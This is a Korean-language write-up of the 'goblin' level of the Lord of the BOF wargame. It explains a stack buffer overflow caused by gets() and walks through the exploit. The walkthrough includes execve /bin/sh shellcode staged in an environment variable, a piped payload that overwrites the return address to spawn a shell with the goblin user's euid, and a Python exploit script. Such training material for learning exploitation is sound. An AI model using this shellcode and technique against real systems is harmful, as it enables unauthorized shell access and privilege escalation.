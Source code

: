 ```yaml
---
title: "[LOB]Level03. goblin"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180003
category: write-up
date: 2018-08-28 03:00:00 +0900
modify_date: 2024-04-24
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png

---
```

[+ stdin](#){:.button.button--outline-success.button--pill}
> cobolt / hacking exposed

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

------

### 0x01. Static Analysis

16byte크기의 buffer배열을 선언하고 gets함수를 이용하여 buffer에 값을 입력받아 저장한다.

cobolt 문제와 다른점은 cobolt에서는 main함수의 argv로 사용자에게 입력값을 받았다면, 이 문제는 gets를 이용하여 사용자에게 입력값을 받는다.

따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.

gets를 이용하여 사용자가 입력한 값을 buffer배열로 복사할때 복사되는 크기가 정해져있지 않아 **BoF(Buffer OverFlow) 취약점**이 존재한다.
{:.info}

------

### 0x02. Dynamic Analysis

buffer배열의 크기가 16Byte로 Shellcode보다 크기가 작으므로 환경변수를 이용하여 풀이한다.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```shell
[cobolt@localhost cobolt]$ export shellcode=`python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
[cobolt@localhost cobolt]$ export
...생략...
declare -x USER="cobolt"
declare -x USERNAME=""
declare -x shellcode="��������������������������������������������������1�Ph//shh/bin��PS�ᙰ
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/01.png" width="800px">{:.rounded.shadow}

`shellcode` 환경변수에 Shellcode를 넣는다.

<br>

```c
//env.c
main(){
    printf("0x%08x\n", getenv("shellcode") );
}
```

```shell
[cobolt@localhost cobolt]$ gcc -o env env.c
[cobolt@localhost cobolt]$ ./env
0xbfffff3b
```

`shellcode` 환경변수의 주소를 구하는 프로그램을 만들어 주소를 구해온다. (0xbfffff3b)

**[!] gdb에서 run 명령 시 user input 주는 방법 1**  
1) 입력하고나 하는 문자열을 파일로 생성  
$ python -c 'print "A"*10>tmp  
2) gdb에서 run 명령어 실행 시 파일 내용 입력   
(gdb) r<tmp   
{:.info}

**[!] gdb에서 run 명령 시 user input 주는 방법 2**   
1) 스크립트 실행 결과를 임시파일 생성 후 바로 임시파일의 내용 입력  
(gdb) r \`python -c 'print "A"*10'>tmp\`<tmp
{:.info}


-----

### 0x03. Exploit

여기서 한번 생각해야 할 점은, Cobolt문제는 프로그램의 인자값으로 값을 넘겨주기 때문에 프로그램을 실행할때 프로그램 이름 뒤에 인자로 Payload를 넘겨주면됐다.

하지만 이번 문제는 프로그램 내부에서 입력값을 받기 때문에 같은 방법으로는 Payload를 넘겨줄 수 없다.

따라서 Pipe('\|')를 사용해야 한다. (Pipe명령어는 왼쪽 **표준출력**을 오른쪽에 **표준입력**으로 넘겨주는 역할을 한다.)

표준입력으로 넘겨주어야 하기 때문에 `cat` 와 `;`명령어를 함께 사용해야 한다. (FTZ 12번 문제를 풀었다면 쉽게 이해할 수 있을 것이다.)

```shell
[cobolt@localhost cobolt]$ (python -c 'print "A"*20+"\x3b\xff\xff\xbf"';cat)|./goblin
AAAAAAAAAAAAAAAAAAAA;���
id
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```

> Cobolt문제와 풀이방법이 동일하므로 상세설명은 생략했다.

-----

### 0x04. 정리

Cobolt 문제에서 BoF 취약점이 존재했던 strcpy함수 외에도 gets함수도 입력값 크기 검증이 없기때문에 동일하게 BoF 취약점이 존재하는 것을 확인할 수 있는 문제였다.

그리고 프로그램 내부에서 사용자 입력값을 받을 때 어떻게 입력값을 넘겨주어야 하는지도 알게되는 문제였다.

-----

```python
#ex.py
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/cobolt/goblin"

shellcode_env_addr = 0xbffffc33

payload = "\x90"*20
payload = append(p32(shellcode_env_addr))

print payload
```

```
(python ex.py;cat)|./goblin
```

-----

